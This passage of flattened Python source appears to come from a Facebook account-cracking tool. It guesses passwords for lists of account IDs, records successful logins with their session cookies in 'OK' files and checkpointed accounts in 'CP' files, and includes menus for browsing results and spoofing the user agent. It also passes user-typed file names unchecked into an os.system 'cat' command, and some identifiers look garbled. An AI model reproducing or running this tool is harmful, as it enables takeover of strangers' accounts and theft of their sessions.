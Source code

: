 break                     except(KeyError, IOError):                         m = " "                         d = " "                         y = " "                     except:pass                     _ahmar_cici_("\r%s[%sXSAN-CP%s] %s • %s                 "%(_U_,_P_,_U_,fl.get("id"),i))                     self.cp.append("%s•%s"%(fl.get("id"),i))                     _ahmar_ahmar_("CP/%s.txt"%(tanggal),"a+").write("%s•%s\n"%(fl.get("id"),i))                     break                 elif log.get("status")=="success":                     _ahmar_cici_("\r%s[%sXSAN-OK%s] %s • %s • %s     "%(_H_,_P_,_H_,fl.get("id"),i,koki(log.get("cookies"))))                     self.ada.append("%s•%s"%(fl.get("id"),i))                     _ahmar_ahmar_("OK/%s.txt"%(tanggal),"a+").write("%s•%s\n"%(fl.get("id"),i))                     break                 else:continue             self.ko+=1             _ahmar_cici_("\r%s[%sCrack%s][%s%s/%s%s][%sOK:%s%s][%sCP:%s%s]%s"%(_U_,_P_,_U_,_P_,self.ko,len(self.fl),_U_,_P_,len(self.ada),_U_,_P_,len(self.cp),_U_,_P_), end=' ');sys.stdout.flush()         except:             self.mbasic(fl)  ### Menu Mengecek Hasil Crack def _cek_result_dev_():     _clear_()     _my_logo_()     _Ahmar_jan_Cici_ = '__My_Love__'+_oscylopsce_+_escylipsce_+_ascylapsci_+'__forever__'     _ahmar_cici_('%s[ %sCrack Results %s]'%(_U_,_P_,_U_))     _ahmar_cici_('\n%s[%s1%s] %sCheck Results OK'%(_U_,_P_,_U_,_P_))     _ahmar_cici_('%s[%s2%s] %sChel Results CP'%(_U_,_P_,_U_,_P_))     ch = _cici_ahmar_('%s[%s•%s] %sChoose : '%(_U_,_P_,_U_,_P_))     if ch in ['']:         _ahmar_cici_('%s[%s!%s] %sWrong input'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     elif ch in ['1','01','001','a']:         try:             okl = os.listdir("OK")             _ahmar_cici_('\n%s[%s Crack Results Stored in File OK %s]\n'%(_U_,_P_,_U_))             for file in okl:                 _ahmar_cici_('%s[%s•%s] %s%s'%(_U_,_P_,_U_,_P_,file))             _ahmar_cici_('')             files = _cici_ahmar_('%s[%s•%s] %sINPUT File Name : '%(_U_,_P_,_U_,_P_))             _ahmar_cici_('')             if files == "":                 _ahmar_cici_('%s[%s!%s] %sWrong Input Bro'%(_M_,_P_,_M_,_P_))                 time.sleep(2)                 _menu_dev_(_Ahmar_jan_Cici_)             os.system('cat OK/%s'%(files))             ppp = _ahmar_ahmar_("OK/%s"%(files)).read().splitlines()             del1 = ("%s"%(files)).replace("-", " ").replace(".txt", "")             _ahmae_cici_('\n%s[%s•%s] %sTotal Crack Result Date %s Is %s Account'%(_U_,_P_,_U_,_P_,del1,len(ppp)))         except:             _ahmar_cici_('%s[%s No Results Found %s]'%(_M_,_P_,_M_))     elif ch in ['2','02','002','b']:         try:             cpl = os.listdir("CP")             _ahmar_cici_('\n%s[%s Crack Results Stored in CP Files %s]\n'%(_U_,_P_,_U_))             for file in cpl:                 _ahmar_cici_('%s[%s•%s] %s%s'%(_U_,_P_,_U_,_P_,file))             _ahmar_cici_('')             files = _cici_ahmar_('%s[%s•%s] %sInput File Name : '%(_U_,_P_,_U_,_P_))             _ahmar_cici_('')             if files == "":                 _ahmar_cici_('%s[%s!%s] %sWrong input'%(_M_,_P_,_M_,_P_))                 time.sleep(2)                 _menu_dev_(_Ahmar_jan_Cici_)             os.system('cat CP/%s'%(files))             ppp = _ahmar_ahmar_("CP/%s"%(files)).read().splitlines()             del1 = ("%s"%(files)).replace("-", " ").replace(".txt", "")             _ahmar_cici_('\n%s[%s•%s] %sTotal Crack Result Date %s Is %s Account'%(_U_,_P_,_U_,_P_,del1,len(ppp)))         except:             _ahmar_cici_('%s[%s No Results Found %s]'%(_M_,_P_,_M_))     else:         _ahmar_cici_('%s[%s!%s] %sWeong Input'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     _cici_ahmar_('\n%s[ %sReturn %s]%s'%(_U_,_P_,_U_,_P_))     _menu_dev_(_Ahmar_jan_Cici_)  ### Mau Recode Lu Ya? def _check_recode_(_oscylopsce_,_ascylapsci_,_escylipsce_):     _recode_ = '__My_Love__'+_oscylopsce_+_escylipsce_+_ascylapsci_+'__Forever__'     if _uscylupsci_ not in _recode_:_ahmar_cici_('%s[%s!%s] %sHey, do you want to recode?'%(_M_,_P_,_M_,_P_))     else:return _menu_dev_(_recode_)  ### Menu User Agent def _default_ua_(_Cici_Cantik_Banget_):     ua = ua_xiaomi     try:         ugent = _ahmar_ahmar_('ugent.txt','w')         ugent.write(ua)         ugent.close()     except (KeyError,IOError):         _login_dev_(_Cici_Cantik_Banget_) def _ugen_dev_(_Ahmar_jan_Cici_):     _var_ugen_(_Ahmar_jan_Cici_)     pmu = _cici_ahmar_('%s[%s•%s] %sChoose : '%(_U_,_P_,_U_,_P_))     _ahmar_cici_('')     if pmu in[""]:         _ahmar_cici_('%s[%s!%s] %sWrong input'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     elif pmu in ['1','01','001','a']:         os.system('xdg-_ahmar_ahmar_ https://www.google.com/search?q=My+User+Agent&amp;oq=My+User+Agent&amp;aqs=chrome..69i57j0l3j0i22i30l6.4674j0j1&amp;sourceid=chrome&amp;ie=UTF-8')         _cici_ahmar_('%s[ %sRetrun %s]%s'%(_U_,_P_,_U_,_P_))         _menu_dev_(_Ahmar_jan_Cici_)     elif pmu in ['2','02','002','b']:         _del_()         ua = _cici_ahmar_("%s[%s•%s] %sInput User agent : \n\n"%(_U_,_P_,_U_,_P_))         try:             ugent = _ahmar_ahmar_('ugent.txt','w')             ugent.write(ua)             ugent.close()             _ahmar_cici_("\n%s[ %sSuccessfully Changed User Agent %s]"%(_U_,_P_,_U_))             _cici_ahmar_('\n%s[ %sEnter Click %s]%s'%(_U_,_P_,_U_,_P_))             _menu_dev_(_Ahmar_jan_Cici_)         except (KeyError,IOError):             _ahmar_cici_("\n%s[ %sFailed to Change User Agent %s]"%(_M_,_P_,_M_))             _cici_ahmar_('\n%s[ %sRetrun %s]%s'%(_M_,_P_,_M_,_P_))             _menu_dev_(_Ahmar_jan_Cici_)     elif pmu in ['3','03','003','c']:         _ugen_hp_(_Ahmar_jan_Cici_)     elif pmu in ['4','04','004','d']:         _del_()